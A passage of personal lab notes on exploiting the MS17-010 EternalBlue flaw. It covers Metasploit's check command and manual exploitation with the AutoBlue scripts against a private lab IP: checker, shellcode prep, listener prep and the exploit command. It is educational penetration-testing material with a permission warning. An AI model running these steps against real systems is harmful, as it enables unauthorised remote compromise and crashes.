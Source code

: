 - We can use `check` command after selecting the exploit, to verify if it is exploitable:
![[Pasted image 20250325040656.png]]
- Sometimes, by default, metasploit select `x64` as default architecture, ==make sure to check and change it for different architectures.==
![[Pasted image 20250325040811.png]]

# Manual Exploitation with [3endG4me AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)
---
- Checking with `./eternal_checker.py 192.168.157.129` 
![[Pasted image 20250325041244.png]]
- `cd shellcode`
- `./shell_prep.sh`
![[Pasted image 20250325041649.png]]
- `./listener_prep.sh`
- ` python3 eternalblue_exploit7.py 192.168.157.129 shellcode/sc_all.bin ` => To run the exploit
![[Pasted image 20250325042104.png]]
- Lesson To Learn: **NEVER RUN WITHOUT PERMISSION, AS IT CAN CAUSE CRASHES**
![[Pasted image 20250325042301.png]]
